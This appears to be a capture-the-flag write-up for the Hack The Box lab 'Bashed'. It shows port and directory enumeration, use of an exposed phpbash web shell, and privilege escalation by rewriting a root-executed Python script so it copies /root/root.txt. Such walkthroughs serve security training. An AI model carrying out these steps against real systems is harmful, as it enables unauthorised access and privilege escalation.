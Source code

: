 <center><h1>Bashed</h1></center>
<br>
<center><h3>Summary</h3></center>
<br>
- Do some simple HTTP enumeration to find a custom php script
- Use the <b>phpbash.php</b> script grab user and root flag
<br>

First we start with an nmap scan
```
nmap -sV -sC -T4 -p- 10.10.10.68
Starting Nmap 7.80 ( https://nmap.org ) at 2019-09-16 15:48 EDT
Nmap scan report for 10.10.10.68
Host is up (0.053s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.28 seconds
```
<br>
Only one port this time. Navigating to the webpage we see a nice custom webpage. A quick look aorund does reveal anything obvious

<center><img src="/htb/bashed/home.png"></center>
<br>

Next step is to run a gobuster to enumerate the webpage better
```
gobuster dir -u http://10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,txt -t 20

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.68
[+] Threads:        20
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt,php
[+] Timeout:        10s
===============================================================
2019/09/16 15:58:33 Starting gobuster
===============================================================
/images (Status: 301)
/uploads (Status: 301)
/php (Status: 301)
/css (Status: 301)
/dev (Status: 301)
/js (Status: 301)
/config.php (Status: 200)
/fonts (Status: 301)
```
<br>
Quite a few options but the one that is interesting to us is the <b>/dev</b> directory. Navigating to the directory we will see two files.

<center><img src="/htb/bashed/dev.png"></center>
<br>
Doesnt matter which file you choose, both of them give you a custom bash shell written in php.

<center><img src="/htb/bashed/shell.png"></center>
<br>
At this point you can grab the user flag located in <b>/user/arrexel</b>.

Now time to get the root flag. Running a quick <b>sudo -l</b> we see that the we can run sudo asa the user <b>scriptmanager</b>.

```
www-data@bashed
:/var/www/html/dev# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```
<br>
Doing some basic enumeration around the box I noticed a strange directory name <b>/scripts</b> which is not there by default. A quick permissions check reveals that the directory is indeed owned by the user <b>scriptmanager</b>. Currently as the user <b>www-data</b> we can see there are two files in there but we are unable to read them. This is where we will use scriptmanagers sudo priviledges
```
www-data@bashed:/# sudo -u scriptmanager cat /scripts/test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close

www-data@bashed:/# sudo -u scriptmanager cat /scripts/test.txt
testing 123!
```
Looking at both the files we can come to the conclusion that there is probably a process executing <b>test.py</b> and sending the output to <b>test.txt</b>.

What we are going to do is edit the <b>test.py</b> script to copy the contents of the root.txt file into the test.txt so we can then read it. This can be achieved with the short script below
```
f = open("test.txt", "w")
r = open("/root/root.txt", "r")
re = r.readline()
f.write(re)
```
Now we wait for the new file to execute and if you did everything correctly than you should be able to get the root flag by reading the <b>/scripts/test.txt</b> file.
<br><br><br>
